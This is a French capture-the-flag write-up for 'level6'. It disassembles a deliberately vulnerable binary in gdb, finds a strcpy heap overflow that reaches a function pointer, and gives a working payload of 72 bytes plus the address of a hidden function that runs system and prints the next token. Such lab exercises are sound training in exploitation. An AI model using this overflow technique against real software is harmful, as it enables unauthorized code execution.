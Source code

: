# Level6

On observe un exécutable à la racine : `level6`

```shell
$ ./level6
Segmentation fault (core dumped)

$ ./level6 "Hello World"
Nope
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level6 -q
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level6`

```shell
$ scp -P 4242 -r level6@192.168.56.102:/home/user/level6/level6 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level6
```

_résultat sauvegardé dans [source.md](source.md)_

On remarque un appel à `m`, une fonction qui nous retourne `Nope` ainsi qu'une fonction non appelée `n` qui print le token du niveau suivant.
L'adresse de la fonction `m` est stocké dans la variable `ppcVar2`, qui est allouée sur la heap grâce à malloc.
On cherche donc à modifier cette adresse pour pointer vers l'adresse de la fonction `n`

On récupère les adresses retournées par les deux malloc dans le main :

```shell
(gdb) break *main+21
Breakpoint 1 at 0x8048491
(gdb) break *main+37
Breakpoint 2 at 0x80484a1
(gdb) run "Hello"
Starting program: /home/user/level6/level6 "Hello"

Breakpoint 1, 0x08048491 in main ()
(gdb) i r eax
eax            0x804a008    134520840
(gdb) continue
Continuing.

Breakpoint 2, 0x080484a1 in main ()
(gdb) i r eax
eax            0x804a050    134520912
```

On calcule le nombre d'octets qui les sépare:
<code>0x804a050 - 0x804a008 = 48<sub>16</sub> = 72<sub>10</sub></code>

On peut maintenant écrire par dessus l'adresse de `m` et mettre l'adresse de `n`: `0x08048454`

```shell
$ ./level6 `python -c 'print ("A"*72 + "\x54\x84\x04\x08")'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
